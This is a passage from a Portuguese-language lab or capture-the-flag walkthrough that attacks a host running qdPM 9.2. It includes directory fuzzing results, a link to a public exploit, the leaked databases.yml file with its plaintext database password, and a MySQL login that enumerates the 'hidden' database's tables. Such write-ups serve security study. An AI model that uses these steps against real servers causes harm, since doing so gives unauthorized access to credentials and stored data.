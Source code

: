 ```shell
robots.txt              [Status: 200, Size: 26, Words: 2, Lines: 3, Duration: 23ms]
robots.txt              [Status: 200, Size: 26, Words: 2, Lines: 3, Duration: 25ms]
sf                      [Status: 301, Size: 169, Words: 5, Lines: 8, Duration: 40ms]
template                [Status: 301, Size: 169, Words: 5, Lines: 8, Duration: 9ms]
uploads                 [Status: 301, Size: 169, Words: 5, Lines: 8, Duration: 7ms]
:: Progress: [81904/81904] :: Job [1/1] :: 2564 req/sec :: Duration: [0:00:32] :: Errors: 0 ::
```
{: .nolineno }
buscando pela versão qdPM 9.2  exploit

<https://www.exploit-db.com/exploits/50176>

> The password and connection string for the database are stored in a yml file. To access the yml file you can go to http://<website>/core/config/databases.yml file and download.
{: .prompt-tip}

`databases.yml`

```text
all:
  doctrine:
    class: sfDoctrineDatabase
    param:
      dsn: 'mysql:dbname=qpm;host=localhost'
      profiler: false
      username: qpmadmin
      password: "<?php echo urlencode('qpmpazzw') ; ?>"
      attributes:
        quote_identifier: true  
```
{: .nolineno }
### mysql

conectando no db

```console
╰─ mysql -u qpmadmin -h 192.168.15.4 -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 41
Server version: 10.5.11-MariaDB-1 Debian 11

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| hidden             |
| information_schema |
| mysql              |
| performance_schema |
| qpm                |
+--------------------+


Database changed
MariaDB [hidden]> show tables;
+------------------+
| Tables_in_hidden |
+------------------+
| url              |
| users            |
+------------------+
```